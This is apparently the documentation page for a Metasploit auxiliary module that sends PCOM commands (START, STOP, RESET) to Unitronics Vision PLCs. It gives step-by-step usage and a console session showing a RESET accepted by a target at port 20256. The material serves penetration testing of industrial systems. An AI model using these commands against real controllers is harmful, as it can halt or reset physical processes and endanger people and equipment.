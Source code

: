## Vulnerable Application

  Unitronics Vision PLCs

## Verification Steps

  1. Do: `use auxiliary/admin/scada/pcom_command`
  2. Do: `set RHOST=IP` where IP is the IP address of the target
  3. Do: `run` to send PCOM command

 ## Scenarios

   ```
msf5 > use auxiliary/admin/scada/pcom_command
msf5 auxiliary(admin/scada/pcom_command) > show options

Module options (auxiliary/admin/scada/pcom_command):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   MODE    RESET            yes       PLC command (Accepted: START, STOP, RESET)
   RHOST                    yes       The target address
   RPORT   20256            yes       The target port (TCP)
   UNITID  0                no        Unit ID (0 - 127)

msf5 auxiliary(admin/scada/pcom_command) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf5 auxiliary(admin/scada/pcom_command) > run

[*] 192.168.1.1:20256 - Sending RESET command
[*] 192.168.1.1:20256 - Command accepted
[*] Auxiliary module execution completed
msf5 auxiliary(admin/scada/pcom_command) >
```
